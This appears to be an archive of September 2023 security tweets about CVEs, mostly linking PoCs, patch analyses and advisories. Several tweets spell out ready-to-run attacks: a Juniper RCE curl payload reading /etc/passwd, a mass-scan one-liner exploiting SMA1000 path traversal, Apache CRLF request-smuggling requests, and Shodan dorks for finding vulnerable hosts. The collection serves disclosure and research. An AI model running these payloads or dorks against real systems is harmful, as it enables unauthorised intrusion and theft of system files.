

# 0xor0ne
**https://twitter.com/0xor0ne/status/1708021407970463944 _at 2023-09-30, 07:30:11_**
<blockquote>
Analysis of an RCE vulnerability affecting the Microsoft Message Queueing (MSMQ) service (CVE-2023-21554).
Great work by Valentina Palmiotti (@chompie1337), Fabius Watson (@FabiusArtrel), and Aaron Portnoy (@aaronportnoy)

https://t.co/b8tNhGALSF

#exploit #rce #cybersecurity https://t.co/fxanxj5TE5
</blockquote>

* https://securityintelligence.com/posts/msmq-queuejumper-rce-vulnerability-technical-analysis/#

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>180</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1707385476364312871 _at 2023-09-28, 13:23:13_**
<blockquote>
New Google Chrome In-The-Wild vulnerability used by a commercial surveillance vendor is a buffer overflow in vp8 encoding in libvpx (CVE-2023-5217 [1486441]) and happens due to allowing thread count change after encoder creation:
https://t.co/CrswteBsh3
</blockquote>

* https://chromium.googlesource.com/webm/libvpx/+/3fbd1dca6a4d2dad332a2110d646e4ffef36d590

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# zapstiko
**https://twitter.com/zapstiko/status/1707333333292838946 _at 2023-09-28, 09:56:02_**
<blockquote>
finally Juniper - Remote Code Execution 🔥 ( CVE-2023-36845 )  
Shodan Dork : title:"Juniper" http.favicon.hash:2141724739  

Poc: curl &lt;TARGET&gt; -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

#bugbountytips #bugbounty #CVE-2023-36845 #RCE https://t.co/FbXzJzcxHW
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>112</code></td>
<td>Favorites: <code>294</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1707274960434328021 _at 2023-09-28, 06:04:04_**
<blockquote>
GitHub - s3cb0y/CVE-2023-43770-POC: A Proof-Of-Concept for the CVE-2023-43770 vulnerability. - https://t.co/0tSLo2vC2G
</blockquote>

* https://github.com/s3cb0y/CVE-2023-43770-POC

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# thecybertix
**https://twitter.com/thecybertix/status/1707268135907475495 _at 2023-09-28, 05:36:57_**
<blockquote>
CVE-2023-0126 Pre-authentication path traversal vulnerability in SMA1000

One Liner
cat file.txt| while read host do;do curl -sk "http://$host:8443/images//////////////////../../../../../../../../etc/passwd" | grep -i 'root:' &amp;&amp; echo $host "is VULN";done

#bugbountytips #bug #CVE https://t.co/shFnrXWTX5
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# wallet_guard
**https://twitter.com/wallet_guard/status/1707162938669142435 _at 2023-09-27, 22:38:56_**
<blockquote>
⚠️ CRITICAL ALERT
🚨 ZERO-DAY on Chrome

Google has patched the fifth Chrome zero-day vulnerability exploited in attacks since the start of the year in emergency security updates released today.

UPDATE YOUR DEVICES NOW &amp; PLEASE SHARE!

CVE-2023-5217 https://t.co/ErkYnLWleG
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>110</code></td>
<td>Favorites: <code>229</code></td>
</tr></table>

---

# 0vercl0k
**https://twitter.com/0vercl0k/status/1707045929713639602 _at 2023-09-27, 14:53:59_**
<blockquote>
RT @mmolgtm: In this post I'll use CVE-2023-3420, an incorrect side effect modelling bug in the JIT compiler that I reported to Chrome, to…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1706921047197639071 _at 2023-09-27, 06:37:45_**
<blockquote>
CVE-2023-35813 sitecore RCE https://t.co/Ib7EEwXbxZ
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>140</code></td>
</tr></table>

---

# l33d0hyun
**https://twitter.com/l33d0hyun/status/1706795049915453649 _at 2023-09-26, 22:17:05_**
<blockquote>
new Apple updates!

- CVE-2023-39434 : WebKit GPU Use-After-Free
    - webkit commit : 249451
- CVE-2023-40403 : libxslt Information Disclosure (Works in Safari)
- Additional recognition

In the case of CVE-2023-39434, there are many changes in the patch. https://t.co/pzADoaTZq0
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# Gi7w0rm
**https://twitter.com/Gi7w0rm/status/1706764212704591953 _at 2023-09-26, 20:14:33_**
<blockquote>
My friend @Chocapikk_ was able to replicate #CVE-2023-29357. It's an #authentication #bypass in @Microsoft #SharePoint API.

The #PoC can be found here:
https://t.co/hZlJauYFET

This can be extended to #RCE! Please #patch now!
</blockquote>

* https://github.com/Chocapikk/CVE-2023-29357

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>270</code></td>
</tr></table>

---

# mmolgtm
**https://twitter.com/mmolgtm/status/1706688276801667114 _at 2023-09-26, 15:12:48_**
<blockquote>
In this post I'll use CVE-2023-3420, an incorrect side effect modelling bug in the JIT compiler that I reported to Chrome, to gain a sandboxed remote code execution in the renderer: https://t.co/mFdIXuM7xY
</blockquote>

* https://github.blog/2023-09-26-getting-rce-in-chrome-with-incorrect-side-effect-in-the-jit-compiler/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>241</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1706223917008834748 _at 2023-09-25, 08:27:36_**
<blockquote>
🔥 We have reproduced the fresh CVE-2023-42793 in JetBrains TeamCity.

Authentication bypass allows an external attacker to gain administrative access to the server and execute any commands on it.  

Update your software ASAP! https://t.co/DXp2gJ1HTq
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>365</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1705968257205670082 _at 2023-09-24, 15:31:42_**
<blockquote>
Chrome In-The-Wild type confusion vulnerability used in the Android Exploit Chain to install Predator on Android devices in Egypt (CVE-2023-4762 [1473247]) happens during handling of growing a non-JSArray packed elements kind within turbofan:
https://t.co/qQ99LkwaMI
</blockquote>

* https://chromium.googlesource.com/v8/v8.git/+/ae7dc61652805bc8e2b060d53b2b6da7cf846b6f

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1705962582774104064 _at 2023-09-24, 15:09:09_**
<blockquote>
RT @nguyendt016: POC for CVE-2023-41892 (Craft CMS Remote Code Execution):
https://t.co/x5PMK0hOaS

#CVE #CraftCMS
</blockquote>

* https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1705847042843492538 _at 2023-09-24, 07:30:02_**
<blockquote>
Interesting reading on Windows privilege escalation through Use-After-Free (UAF) in win32kfull (CVE-2023-21822)
Credits Marcin Wiązowski (@thezdi)

https://t.co/H842SjZa71

#exploit #Windows #infosec https://t.co/c5H0IwuJt2
</blockquote>

* https://www.zerodayinitiative.com/blog/2023/8/1/exploiting-a-flaw-in-bitmap-handling-in-windows-user-mode-printer-drivers

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>251</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1705279848279584988 _at 2023-09-22, 17:56:13_**
<blockquote>
PoC released for Chrome zero-day CVE-2023-4863 vulnerability https://t.co/PaGnSvv4gq
</blockquote>

* https://securityonline.info/poc-released-for-chrome-zero-day-cve-2023-4863-vulnerability/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---

# benhawkes
**https://twitter.com/benhawkes/status/1704908471815356506 _at 2023-09-21, 17:20:30_**
<blockquote>
"The WebP 0day" -- a full technical analysis the recently patched vulnerability in the WebP image library that was exploited in the wild (CVE-2023-4863). https://t.co/6yUcE9sOZa
</blockquote>

* https://blog.isosceles.com/the-webp-0day/

<table><tr>
<td>Quotes: <code>31</code></td>
<td>Replies: <code>16</code></td>
<td>Retweets: <code>345</code></td>
<td>Favorites: <code>854</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1703685169637704121 _at 2023-09-18, 08:19:32_**
<blockquote>
CVE-2023-41892 Craftcms RCE using PHP reflection https://t.co/SHFQ5MGX9B
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>346</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1702246880439099715 _at 2023-09-14, 09:04:17_**
<blockquote>
CVE-2023-38146: Arbitrary Code Execution via Windows Themes. A series of issues exist on Windows 11 which can lead to arbitrary code being executed when a user loads a .theme file.

PoC
https://t.co/8TEHPZjO0w https://t.co/SbZz9R9gJH
</blockquote>

* https://exploits.forsale/themebleed/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1701785666005430395 _at 2023-09-13, 02:31:35_**
<blockquote>
New Chrome 0day 
CVE-2023-4863
I saw the person who submitted the vulnerability and wondered if it was related to Pegasus.
https://t.co/fIcSSRholN https://t.co/HpRyizECyF
</blockquote>

* https://chromereleases.googleblog.com/2023/09/stable-channel-update-for-desktop_11.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>119</code></td>
</tr></table>

---

# Fox0x01
**https://twitter.com/Fox0x01/status/1701624762059895228 _at 2023-09-12, 15:52:12_**
<blockquote>
Time for an Arm-twist! CVE-2023-4039

Tom Hebb (Meta red team) and I discovered an 0day in GCC (for AArch64 targets) during my Arm exploitation training. 

It renders stack canaries against overflows of dynamically-sized variables useless. 

https://t.co/q0vX86e9gK https://t.co/0NDB39Xg8f
</blockquote>

* https://github.com/metaredteam/external-disclosures/security/advisories/GHSA-x7ch-h5rf-w2mf

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>176</code></td>
<td>Favorites: <code>698</code></td>
</tr></table>

---

# _odisseus
**https://twitter.com/_odisseus/status/1701503581906497645 _at 2023-09-12, 07:50:40_**
<blockquote>
RT @0xor0ne: CVE-2022-34718: Patch analysis, bug identification and exploit development (Windows TCP/IP Remote Code Execution Vulnerability…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1701465123095785662 _at 2023-09-12, 05:17:51_**
<blockquote>
Urgent: Google releases patch for a new Chrome zero-day #vulnerability (CVE-2023-4863) that's being exploited in the wild.

Read: https://t.co/41SANY0lKi

Don't wait—update your browser now to protect against potential cyber threats.

#cybersecurity #informationsecurity
</blockquote>

* https://thehackernews.com/2023/09/google-rushes-to-patch-critical-chrome.html

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>305</code></td>
<td>Favorites: <code>482</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1701351922953748881 _at 2023-09-11, 21:48:02_**
<blockquote>
The new In-The-Wild Google Chrome Heap buffer overflow in WebP (CVE-2023-4863) is due to an out-of-bounds write vulnerability within the "BuildHuffmanTable" function:
https://t.co/74LEkbLeCO
</blockquote>

* https://chromium.googlesource.com/webm/libwebp.git/+/2af26267cdfcb63a88e5c74a85927a12d6ca1d76

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1701271939149389927 _at 2023-09-11, 16:30:13_**
<blockquote>
CVE-2022-34718: Patch analysis, bug identification and exploit development (Windows TCP/IP Remote Code Execution Vulnerability)
Excellent blog post by @chompie1337 

https://t.co/ZDEOVqM765 

#cybersecurity #cve #exploit https://t.co/7WfuQUqbeG
</blockquote>

* https://securityintelligence.com/posts/dissecting-exploiting-tcp-ip-rce-vulnerability-evilesp/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>277</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1700228420620190042 _at 2023-09-08, 19:23:38_**
<blockquote>
The Chromium bug entry is now open with a PoC (CVE-2023-3079):
https://t.co/FlqP95rvWN
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=1450481

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# alisaesage
**https://twitter.com/alisaesage/status/1699702365337870413 _at 2023-09-07, 08:33:17_**
<blockquote>
More good stuff on Chrome RCE vuln research: @bjrjk wrote a super deep dive analysis of CVE-2022-4262, a non-trivial type confusion in v8 JavaScript engine which I reverse-engineered from patch early this year and briefly covered in my PHDays talk in May:  https://t.co/lhWuQPXngG…
</blockquote>

* https://github.com/bjrjk/CVE-2022-4262/blob/main/CVE-2022-4262.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>123</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1699232831883628673 _at 2023-09-06, 01:27:31_**
<blockquote>
[PoC] [CVE-2023-25690] Apache HTTP Server mod_proxy vul

CLRF Injection
GET /categories/1%20HTTP/1.1%0d%0aFoo:%20baarr HTTP/1.1
Host: 

Header Injection
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 1.1.1.1

https://t.co/st5iVALH8V
</blockquote>

* https://github.com/dhmosfunk/CVE-2023-25690-POC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>121</code></td>
<td>Favorites: <code>323</code></td>
</tr></table>

---

# ajxchapman
**https://twitter.com/ajxchapman/status/1698687203419828522 _at 2023-09-04, 13:19:24_**
<blockquote>
The past week I completely failed to port a Chrome sandbox escape exploit for CVE-2021-30633 to Chrome 90. And by completely, I mean _completely_. This is not something I've attempted before, and I have learned so much in the process.... but man, do I feel like a failure 😆
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1698660901845700942 _at 2023-09-04, 11:34:53_**
<blockquote>
CVE-2023-4596: RCE in Forminator plugin for WordPress, 9.8 rating 🔥

The Forminator plugin in WP is vulnerable to arbitrary file upload for unauthenticated users, which may make RCE possible. PoC is available❗️

👉🏻 Dork: http.body:"/wp-content/plugins/forminator"

PoC is here:… https://t.co/ET2b36wngI
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1698240766168973659 _at 2023-09-03, 07:45:25_**
<blockquote>
minidlna 1.3.2 cve-2023-33476 root cause analysis and exploitation 

Part1:
http chunk parsing heap overflow (cve-2023-33476) root cause analysis
https://t.co/4hhlWUd7ou

Part2:
exploiting cve-2023-33476 for remote code execution
https://t.co/1F4HpkgWYW
</blockquote>

* https://blog.coffinsec.com/0day/2023/05/31/minidlna-heap-overflow-rca.html
* https://blog.coffinsec.com/0day/2023/06/19/minidlna-cve-2023-33476-exploits.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1698170745644630308 _at 2023-09-03, 03:07:10_**
<blockquote>
POC for CVE-2023-34039 VMWare Aria Operations for Networks (vRealize Network Insight) Static SSH key RCE
https://t.co/rEymx6tdxy
</blockquote>

* https://github.com/sinsinology/CVE-2023-34039

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1697988619347063272 _at 2023-09-02, 15:03:28_**
<blockquote>
RT @blackorbird: #GhostWriter Used CVE-2023-38831 to construct malware.
https://t.co/oolDetFliU https://t.co/tVIgCENaV3
</blockquote>

* https://cert.gov.ua/article/5661411

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1697940146253902274 _at 2023-09-02, 11:50:51_**
<blockquote>
CVE-2023-34039

POC for CVE-2023-34039 VMWare Aria Operations for Networks (vRealize Network Insight) Static SSH key RCE

https://t.co/ZIBwnUGnFy

#cve #cybersecurity #infosec #pentesting #redteam https://t.co/sG6l7gYHsX
</blockquote>

* https://github.com/sinsinology/CVE-2023-34039

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

